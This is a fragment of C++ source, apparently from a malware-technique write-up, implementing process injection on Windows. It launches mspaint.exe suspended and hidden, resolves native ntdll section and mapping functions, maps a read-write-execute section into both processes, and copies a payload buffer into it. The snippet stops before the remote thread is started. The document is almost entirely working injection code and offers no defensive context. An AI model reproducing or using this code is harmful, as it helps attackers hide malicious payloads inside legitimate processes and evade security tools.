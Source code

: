 ```cpp
  PVOID rb = NULL; // remote buffer
  PVOID lb = NULL; // local buffer

  ZeroMemory(&si, sizeof(STARTUPINFO));
  ZeroMemory(&pi, sizeof(PROCESS_INFORMATION));
  ZeroMemory(&pbi, sizeof(PROCESS_BASIC_INFORMATION));
  si.cb = sizeof(STARTUPINFO);

  ZeroMemory(&oa, sizeof(OBJECT_ATTRIBUTES));

  HMODULE ntdll = GetModuleHandleA("ntdll");
  pZwCreateSection myZwCreateSection = 
  (pZwCreateSection)(GetProcAddress(
    ntdll, "ZwCreateSection"));
  pNtMapViewOfSection myNtMapViewOfSection = 
  (pNtMapViewOfSection)(GetProcAddress(
    ntdll, "NtMapViewOfSection"));
  pZwUnmapViewOfSection myZwUnmapViewOfSection = 
  (pZwUnmapViewOfSection)(GetProcAddress(
    ntdll, "ZwUnmapViewOfSection"));
  pZwCreateThreadEx myZwCreateThreadEx = 
  (pZwCreateThreadEx)GetProcAddress(
    ntdll, "ZwCreateThreadEx");
  pZwClose myZwClose = 
  (pZwClose)GetProcAddress(
    ntdll, "ZwClose");

  // create process as suspended
  if (!CreateProcessA(NULL, 
  (LPSTR) "C:\\windows\\system32\\mspaint.exe", 
  NULL, NULL, NULL,
  CREATE_SUSPENDED | DETACHED_PROCESS | CREATE_NO_WINDOW, 
  NULL, NULL, &si, &pi)) {
    printf("create process failed :(\n");
    return -2;
  };

  myZwCreateSection(&sh, 
  SECTION_MAP_READ | SECTION_MAP_WRITE | SECTION_MAP_EXECUTE, 
  NULL, &sectionS, PAGE_EXECUTE_READWRITE, 
  SEC_COMMIT, NULL);
  printf("section handle: %p.\n", sh);

  // mapping the section into current process
  myNtMapViewOfSection(sh, GetCurrentProcess(), &lb, 
  NULL, NULL, NULL,
  &s, 2, NULL, PAGE_EXECUTE_READWRITE);
  printf("local process mapped at address: %p.\n", lb);

  // mapping the section into remote process
  myNtMapViewOfSection(sh, pi.hProcess, &rb, 
  NULL, NULL, NULL,
  &s, 2, NULL, PAGE_EXECUTE_READWRITE);
  printf("remote process mapped at address: %p\n", rb);

  // copy payload
  memcpy(lb, my_payload, sizeof(my_payload));

  // unmapping section from current process
  myZwUnmapViewOfSection(GetCurrentProcess(), lb);
  printf("mapped at address: %p.\n", lb);
  myZwClose(sh);

```